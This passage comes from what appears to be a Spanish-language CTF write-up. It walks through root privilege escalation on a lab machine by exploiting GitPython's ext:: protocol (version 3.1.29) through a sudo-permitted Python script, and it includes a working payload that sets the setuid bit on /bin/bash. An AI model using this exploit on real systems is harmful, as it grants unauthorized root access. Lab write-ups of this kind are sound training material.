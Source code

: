 ```shell
su prod
```

Y ya seriamos ese usuario, si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Por lo que podremos ejecutar ese comando como `root` pero vemos que tiene un `*` por lo que podremos utilizar ruta y ejecutar lo que queramos, pero como `git`, si hacemos lo siguiente...

```shell
pip3 list
```

Info:

```
GitPython             3.1.29
```

Vemos que es una version vulnerable de `git` por lo que haremos lo siguiente...

```shell
nano /tmp/payload.py
```

```python
from git import Repo
import os

# Inicializar un repositorio git vacío (opcionalmente en modo bare)
r = Repo.init('', bare=True)

# Ejecutar el comando para establecer el bit setuid en /bin/bash
command = 'chmod u+s /bin/bash'
r.clone_from('ext::sh -c "{}"'.format(command), '/tmp/evil_repo', multi_options=["-c", "protocol.ext.allow=always"])

# Ejecutar /bin/bash para asegurar el setuid
os.system('/bin/bash')
```

Crearemos ese archivo en `/tmp` y ahora lo ejecutaremos para que se nos ponga con `SUID` la `bash`...

```shell
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py /tmp/payload.py
```

Saltaran algunos errores, pero si hacemos lo siguiente...

```shell
ls -la /bin/bash
```
